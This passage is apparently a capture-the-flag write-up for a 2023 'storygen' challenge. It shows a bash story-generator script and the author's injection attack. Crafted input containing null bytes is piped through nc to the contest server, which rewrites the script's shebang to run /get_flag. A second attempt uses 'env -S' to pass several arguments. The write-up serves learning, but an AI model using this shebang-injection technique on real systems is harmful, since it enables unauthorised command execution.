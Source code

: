 ```
Do you want to hear the personalized, procedurally-generated story?


To get the flag, run "/get_flag Give flag please"       # <--------------- flag's contents
#!/bin/cat /flag's story

NAME='!/bin/cat /flag'
WHERE='Morrowind'

echo "$NAME came from $WHERE. They always liked living there."
echo "They had 3 pets:"

types[0]="dog"
types[1]="cat"
types[2]="fish"

names[0]="Bella"
names[1]="Max"
names[2]="Luna"


for i in 1 2 3
do
  size1=${#types[@]}
  index1=$(($RANDOM % $size1))
  size2=${#names[@]}
  index2=$(($RANDOM % $size2))
  echo "- a ${types[$index1]} named ${names[$index2]}"
done

echo

echo "Well, I'm not a good writer, you can write the rest... Hope this is a good starting point!"
echo "If not, try running the script again."

Do you want to hear the personalized, procedurally-generated story?
```
We can see the shebang has used cat on both ``/flag`` and ``/tmp/script.sh``. So we're supposed to run ``/get_flag Give flag please``. Okay, how hard can it be?

```
$ echo -ne '!/get_flag Give flag please\x00\x00\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to a story generator.
Answer a few questions to get started.

What's your name?
Where are you from?
Do you want to hear the personalized, procedurally-generated story?


Usage: /get_flag Give flag please


Do you want to hear the personalized, procedurally-generated story?
```
From local testing, we realize this is due to the fact that the shebang makes the interpreter think ``Give flag please\x00\x00/tmp/script.sh`` is just **one** big argument. A bit of searching [shows a way to give multiple arguments in a shebang](https://unix.stackexchange.com/questions/399690/multiple-arguments-in-shebang). Let's try:
```
$ echo -ne '!/usr/bin/env -S /get_flag Give flag please \x00\x00\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
```